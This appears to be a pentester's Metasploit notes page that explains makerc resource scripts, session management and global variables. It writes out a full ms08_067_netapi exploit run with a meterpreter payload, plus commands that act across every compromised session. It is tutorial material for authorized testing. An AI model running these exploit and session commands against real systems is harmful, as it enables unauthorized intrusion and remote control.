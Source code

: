 ## Metasploit Resource Script Creation

Although there are several resource scripts that are available through the framework, you may want to build a custom script of your own. For example, if you routinely run a specific exploit and payload combination against a target, you may want to create a resource script to automate these commands for you. Since this example uses purely ```msfconsole``` commands, the easiest way to create a resource script is through the ```makerc``` command available in ```msfconsole```. The ```makerc``` command records all of the commands you've run in the console and saves them in a resource script for you.

```sh
msf > workspace demo
msf > use exploit/windows/smb/ms08_067_netapi
msf (ms08_067_netapi) > set RHOST 192.168.1.1
msf (ms08_067_netapi) > set payload windows/meterpreter/bind_tcp
msf (ms08_067_netapi) > exploit
```

To save these commands to a resource script, we can use the ```makerc``` command. We'll need to provide the output location and name we want the script to use:

```sh
msf (ms08_067_netapi) > makerc ~/Desktop/myscript.rc
```

## Metasploit Session Management

List all sessions

```
msf6> sessions
```

Execute command across all sessions

```
msf6> sessions -C <command>
```

Kill all sessions

```
msf6> sessions -K
```

Upgrade a shell to a meterpreter session on many platforms

```
msf6> sessions -u
```

## Metasploit Tips I Discovered Too Late

In order to save a lot of typing during a pentest, you can set global variables within msfconsole. You can do this with the setg command. Once these have been set, you can use them in as many exploits and auxiliary modules as you like. You can also save them for use the next time you start msfconsole. However, the pitfall is forgetting you have saved globals, so always check your options before you run or exploit. Conversely, you can use the unsetg command to unset a global variable. In the examples that follow, variables are entered in all-caps (ie: LHOST), but Metasploit is case-insensitive so it is not necessary to do so.
